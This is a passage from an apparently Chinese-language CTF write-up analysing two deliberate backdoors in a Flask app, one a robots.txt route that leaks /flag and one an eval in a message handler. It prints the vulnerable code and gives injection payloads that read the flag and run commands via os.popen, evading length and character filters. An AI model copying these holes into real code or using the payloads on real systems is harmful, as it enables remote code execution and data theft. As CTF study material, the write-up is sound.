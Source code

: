 ### robots后门

见面就是一个简陋的后门,

```python
@app.route('/robots.txt',methods=['GET'])
def texts():
    return send_from_directory('/', open('/flag','r').read(), as_attachment=True)
```

把flag放在robots.txt里,访问就可以拿到.

### eval后门

```python
def set_str(type,str):
    retstr = "%s'%s'"%(type,str)
    print(retstr)
    return eval(retstr)
```

定义了一个很奇怪的函数,一看就知道是刻意设置的后门,全局搜索哪里调用.

```python
@app.route('/message',methods=['POST','GET'])
def message():
    if request.method == 'GET':
        return render_template('message.html')
    else:
        type = request.form['type'][:1]
        msg = request.form['msg']
		...

        if len(msg)>27:
            return render_template('message.html', msg='留言太长了！', status='留言失败')
        msg = msg.replace(' ','')
        msg = msg.replace('_', '')
        retstr = set_str(type,msg)
        return render_template('message.html',msg=retstr,status='%s,留言成功'%username)

```

看到message中有调用,且有简单限制,msg长度得小于27个字符且不能有空格和下划线,type只能输入一个字符

读flag的poc比较简单,payload如下:

post:  `type='&msg=%2bopen('/flag').read()%2b'`

赛后花了不少时间思考能不能getshell,折腾半天终于成功,正好27个字符.

post:  `msg=%2Bos.popen("echo%09-n%09b>>a")%2B'&type='`

简单分析payload,

首先需要通过python解释器,因此不能有语法错误,需要前后单引号以及+号闭合.

原本的app.py中已经导入os,帮了个大忙,可以使用os.popen()执行命令

